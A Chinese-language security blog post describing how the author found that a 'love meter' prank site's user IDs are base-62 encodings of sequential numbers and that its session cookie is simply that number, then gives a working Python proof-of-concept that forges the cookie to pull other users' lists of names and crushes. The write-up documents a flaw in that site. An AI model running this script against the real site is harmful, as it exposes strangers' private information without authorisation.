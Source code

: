 ```yaml
---
title: "【資安小故事】餅乾猜猜樂"
date: 2018-11-21 00:00:00
tags:
- security
---
```


事情是這樣的，我在別人的挨居的自介上面看到一個連結，就好奇的點了進去

{% img /images/lovemeter-1.png 500 'lovemeter 首頁' %}

裡面看起來就是那種心裡測驗的網站，愛情計算器，幫你測你和喜歡的人配不配

聰明如我<del>資安小天才</del>，當然是隨便亂打個 abcd 就送出看看這是在耍什麼花樣

{% img /images/lovemeter-2.png 500 'lovemeter 計算結果頁面' %}

果然是愚弄人的網站，如果你誠實的填上你的名字和你喜歡的人的名字，就被分享給你連結的人看光光啦

在你生氣的同時，這個網站就很好心的讓你註冊一下好發洩怨氣

那我當然也順手按了一下註冊（免錢的隨手按一下），這時候就可以把連結分享給別人囉

這個可以看中了我的圈套的受害者名單的頁面，我只要把 cookie 清掉，就會被帶到前面第一個愛情計算器（陷阱）頁面，代表他有用 cookie 去驗證你是誰

* 有對的 cookie 他會給我受害者名單
* 不對的 cookie 他會讓我掉進陷阱

那在看看他的 cookie 之前眼尖的我，就發現他的 url 有些地方像像的，而且後面的 userid 很短

* `https://cn.lovemeter.me/user/5S1X`
* `https://cn.lovemeter.me/user/5S1Y`
* `https://cn.lovemeter.me/user/5S1Z`

多註冊幾次會發現，他的 userid 怎麼感覺好像是每次 counter++

再多嘗試幾次，就會發現 userid 的字元只會是 `0-9a-zA-Z` 的字元組成

然後重點是他的 cookie 是個數字，而且完完全全是 counter++ 的樣子

* `user_quiz_1399337=1399337`
* `user_quiz_1399337=1399338`
* `user_quiz_1399337=1399339`

那這個 userid 跟這個 cookie 的 id 的對照是怎麼樣的呢

猜一猜就能發現他其實是把 `0-9a-zA-Z` 當成 `0-61` 的 62 進位（很合理吧）

```python
convert('5S1X') =  5 * (62 ** 3) +
                  54 * (62 ** 2) +
                   1 * (62 ** 1) +
                  59 * (62 ** 0) = 1399337
```

那我們只要把他的 userid 轉回數字，並新增個 cookie，就能成功看到別人的受害者名單囉

## Proof Of Concept ( POC )

```python source code
#!/usr/bin/env python3
import re
import sys
import json
import string
from prettytable import PrettyTable
import requests

if len(sys.argv) < 2:
    print('usage: ./lovemeter.py (url)')
    exit(0)

value = string.digits + string.ascii_letters

def uid2num(uid):
    num = 0
    for ch in uid:
        v = value.index(ch)
        num = num * len(value) + v
    return num

def num2uid(num):
    uid = ''
    while num > 0:
        v = num % len(value)
        uid += value[v]
        num //= len(value)
    return uid[::-1]

url = sys.argv[1]
r = re.search('https:\/\/(\w+)\.lovemeter.me\/\w+\/(\w+)', url)
prefix = r.group(1)
uid = r.group(2)
num = uid2num(uid)

r = requests.get(f'https://{prefix}.lovemeter.me/other-user-stats/{uid}', headers = {
    'cookie': f'user_quiz_{num}={num}',
    'user-agent': 'Mozilla/5.0 (iPhone; CPU iPhone OS 11_0 like Mac OS X) AppleWebKit/604.1.38 (KHTML, like Gecko) Version/11.0 Mobile/15A5370a Safari/604.1'
})

data = json.loads(r.text)['data']
t = PrettyTable(['名字', '喜歡的人'])
for item in data:
    item = json.loads(item)
    t.add_row([item['userFullName'], item['crushFullName']])
print(t)
```

```bash usage
python lovemeter.py https://cn.lovemeter.me/user/1234
```
